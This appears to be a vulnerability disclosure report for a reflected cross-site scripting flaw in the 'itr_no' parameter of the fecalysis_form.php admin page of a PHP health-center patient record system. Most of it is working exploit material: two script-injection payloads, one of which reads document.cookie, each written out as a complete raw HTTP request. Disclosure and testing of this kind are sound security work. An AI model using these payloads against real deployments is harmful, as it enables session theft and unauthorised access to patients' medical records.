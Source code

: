 # Health Center Patient Record Management v1.0 has Cross-site scripting (reflected)

Website source address:https://www.sourcecodester.com/php/11058/health-center-patient-record-management-system.html

BUG_Author: lacer

Vulnerability File: /HCPMS/admin/fecalysis_form.php

Parameter "itr_no" (GET), exists XSS vulnerability

Payload1:itr_no=1"><script>alert(111)</script>

```
GET /HCPMS/admin/fecalysis_form.php?itr_no=1%22%3E%3Cscript%3Ealert(111)%3C/script%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=02qotonqdgu64aj0uljkiarmul
Connection: close
```

![image](https://github.com/Lacer23/bug_report/blob/main/picture/Lacer231.png)

Payload2:itr_no=1"><script>alert(document.cookie)</script>

```
GET /HCPMS/admin/fecalysis_form.php?itr_no=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=02qotonqdgu64aj0uljkiarmul
Connection: close
```

![image](https://github.com/Lacer23/bug_report/blob/main/picture/Lacer232.png)
